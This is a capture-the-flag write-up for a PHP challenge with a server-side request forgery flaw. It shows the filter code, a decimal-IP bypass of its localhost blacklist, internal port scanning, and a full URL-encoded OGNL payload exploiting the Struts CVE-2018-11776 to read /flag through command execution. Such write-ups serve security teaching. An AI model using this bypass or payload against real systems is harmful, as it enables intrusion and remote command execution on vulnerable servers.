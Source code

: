 This challenge is another PHP application, where you can fetch url and see the response.  
It's an obvious SSRF Challenge with a blacklist filter:  
```php
$url = $_POST['url'];
$parsed = parse_url($url);
$scheme = $parsed['scheme'];
if($scheme !== 'http'){
	die('Hacking attempt');
	}
$blacklist = ["127","local","::","http://0/"];
foreach ($blacklist as $value) {
	if (stripos($url,$value) !== false) 
		die('Hacking attempt');
}
if (substr_count($parsed['host'], '.') > 0){
	die('hacking attempt');
}
```
So it seems its not possible to use other sheme than http, also there is a filter on localhost address and ipv6 notation, and there is a count for dots in host scheme,  
so it seems domain bypass is not possible, One possible way to bypass this filter is use decimal notation http://2130706433/  
The next step is scan internal network for other services, the only other service is running on port 8080, which shows tomcat default page.  
The hint suggested that I was using Struts version 2.3.14, you can  then find out  that this [version](https://www.securityfocus.com/bid/105125) was vulnerable to CVE-2018-11776  
I was using this exact container : https://github.com/bhdresh/CVE-2018-11776 
The only difference is that your payload will be through ssrf so you might have to encode your payloads  
After getting rce, the goal was to read the file /flag , the full payload(in browser) looks like : http://2130706433:8080/struts2-showcase-2.3.14/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/flag%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/help.action
